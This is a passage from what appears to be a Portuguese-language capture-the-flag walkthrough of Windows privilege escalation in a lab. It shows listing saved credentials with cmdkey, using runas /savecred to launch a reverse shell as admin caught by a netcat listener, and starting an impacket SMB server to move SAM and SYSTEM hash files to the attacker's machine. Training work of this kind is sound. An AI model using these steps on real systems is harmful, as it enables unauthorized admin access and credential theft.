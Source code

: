 
## **<a id="10"> • Passwords - Saved Creds</a>**

Aqui vamos utilizar o comando `cmdkey /list` para listar as credenciais salvas.

```powershell
PS C:\PrivEsc> cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

Note que as credenciais para o usuario `admin` estão salvas, então vamos utilizar o `runas` para obter acesso como `admin`.

```powershell
PS C:\PrivEsc> runas /savecred /user:admin C:\PrivEsc\reverse.exe
Attempting to start C:\PrivEsc\reverse.exe as user "WIN-QBA94KB3IOF\admin" ...
```

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         21:16:15
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.5.221] 49791
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

E para concluir esse tópico bastar clicar no botão `Completed`.

---

## **<a id="11"> • Passwords - Security Account Manager (SAM)</a>**

Os arquivos SAM e SYSTEM podem ser usados para extrair hashes de senha do usuário.

Então para extrair os hash primeiro temos que enviar os arquivos para o nosso computador, para isso vamos utilizar o servidor smb que utilizamos anteriormente.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         21:27:28
╰──➤ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.5.221,49838)
[*] AUTHENTICATE_MESSAGE (WIN-QBA94KB3IOF\user,WIN-QBA94KB3IOF)
```